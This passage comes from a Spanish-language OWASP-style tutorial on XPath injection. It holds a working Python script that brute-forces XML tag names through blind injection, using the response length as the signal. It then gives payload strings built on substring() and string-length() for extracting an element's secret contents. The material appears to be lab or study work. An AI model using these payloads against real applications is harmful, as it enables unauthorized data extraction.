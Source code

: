     def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = "\n"
    	
    	for tag in range(1, 6):
    		data+="TagNo.%d -> " % tag
    		
    		for position in range(1, 11):
    			for character in characters:
    				post_data = {
    					'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (tag, position, character),
    					'submit': ''
    				}
    
    				r = requests.post(main_url, data=post_data)
    				
    				#print(len(r.text))
    				
    				# Comparación de cantidad de caracteres en la respuesta
    				if len(r.text) != 8691 and len(r.text) != 8692:
    					#print(len(r.text))
    					data+=character
    					p2.status(data)
    					break
    					
    		data+="\n"	
    
    if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 28.png)

El archivo XML ahora se ve de esta forma:

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 29.png)

### Contenido de Elementos Internos

Ya ahora solo queda descubrir el contenido, se podría aprovechar de que ya se conocen los nombres internos para ahora mostrar su contenido de la siguiente manera:

```bash
# Tomar el primer caracter del contenido del elemento 
# "Secret" y compararlo con un caracter
1' and substring(Secret,1,1)='E

# Se podría también descubrir la cantidad de caracteres 
# que tiene la cadena con "string-length"
1' and string-length(Secret)>='25
```
